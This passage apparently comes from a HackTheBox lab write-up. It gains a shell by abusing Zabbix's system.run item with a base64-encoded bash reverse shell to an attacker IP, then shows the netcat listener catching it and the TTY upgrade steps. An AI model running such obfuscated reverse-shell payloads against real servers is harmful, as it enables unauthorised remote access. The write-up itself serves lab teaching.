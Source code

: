 I had this same issue on
[Zipper](/htb-zipper.md#stable-shell). There, I solved it
by having my listener set up to issue commands back that generated a new
shell in a new Perl process. I did test that, and it works here, but
it's unnecessary.

On the [Zabbix Agent documentation
page](https://www.zabbix.com/documentation/5.0/en/manual/config/items/itemtypes/zabbix_agent),
the section for `system.run` gives some detail of how it works:

[![](/img/image-20220331080244452.png)*Click
for full size
![image*](/img/image-20220331080244452.png)

It takes a command and an optional `wait` or `nowait`. With `nowait`, it
returns 1 and doesn't wait for execution to finish.

I'll update my Key to:



    system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash, nowait]



On pushing "Get value" the value immediately updates to 1, and the shell
connects, and doesn't die.



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 43058
    bash: cannot set terminal process group (858): Inappropriate ioctl for device
    bash: no job control in this shell
    zabbix@shibboleth:/$



I'll upgrade it using the standard `script` trick:



    zabbix@shibboleth:/$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    zabbix@shibboleth:/$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    zabbix@shibboleth:/$



## Shell as ipmi-svc
